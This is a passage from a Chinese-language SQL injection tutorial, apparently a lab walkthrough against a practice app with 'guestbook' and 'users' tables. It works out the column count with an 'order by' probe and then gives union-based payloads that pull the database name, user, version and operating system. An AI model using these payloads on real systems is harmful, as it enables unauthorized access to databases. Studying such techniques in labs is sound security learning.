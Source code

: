 	- 输入ID为`1' order by 3 #`, 不正常显示：

	![20190502150938.png](../post_images/743d77046e63615810561839b1aa117e.png)

3. 使用联合查询获取其它有用信息，例如获取数据表名称可获取数据库名和数据库用户名：可获取数据库版本和当前操作系统：可获取数据表名：可看到当前数据库中有两个表：`guestbook`和`users`

	> union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同，而我们之前已经知道了主查询列数为 2，接下来就好办了。

	- 输入以下语句进行查询：

	```sql
	1' union select database(),user()#
	
	```


	![20190502151701.png](../post_images/21753a1f42e4dee59e8aaec286bea253.png)

	- 输入以下语句进行查询

	```sql
	 1' union select version(),@@version_compile_os#
	
	```


	![20190502152012.png](../post_images/e09614dc6fcc43e0704ad55e01bdbf8f.png)

